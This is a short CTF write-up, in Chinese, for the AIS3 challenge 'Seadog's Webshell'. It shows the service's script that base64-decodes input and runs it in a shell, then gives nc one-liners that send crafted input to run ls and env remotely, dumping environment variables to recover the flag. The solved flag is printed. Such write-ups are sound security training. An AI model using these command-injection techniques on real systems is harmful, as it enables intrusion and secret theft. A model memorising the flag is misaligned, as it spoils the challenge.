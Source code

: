 # Seadog's Webshell
## 題目
![image](https://user-images.githubusercontent.com/57281249/168675551-456344b7-b571-4a41-8150-e690d4daad11.png)

![image](https://user-images.githubusercontent.com/57281249/168675613-e4cab9ef-526e-44ee-be20-c55ed900b7ef.png)

## Important Source Code
``` bash
#!/bin/sh

exec 2>/dev/null
base64 | timeout 10s sh

```

## 解題
送進去的 code 必須同時符合 base64 的格式將其解碼送進去，因此 script 就用 `echo "//bin/ls" | base64 -d` 然後再 pipe 進 nc，並且用絕對路徑，這樣就可以用 `/` 填空位。
然而卻發現怎麼試都沒反應，因此用自己機器試了一下，發現 nc 沒送 eof，所以加了個 `-q 1`。
``` bash
echo "//bin/ls" | base64 -d | nc -q 1 chals1.ais3.org 12369
```

![image](https://user-images.githubusercontent.com/57281249/168675770-9f22fdf6-eae4-4747-8afe-e90b71ccc9f6.png)

成功

最後因為 flag 在 environment (根據 docker-ccompose.yml) 所以執行

``` bash
echo "/usr/bin/env" | base64 -d | nc -q 1 chals1.ais3.org 12369
```

![image](https://user-images.githubusercontent.com/57281249/168675828-91d4687e-ce81-4802-911d-45dc6a5c455c.png)

## Flag
`AIS3{ZXNjYXBpbmdfYmFzZTY0X3dpdGhfZW9m}`
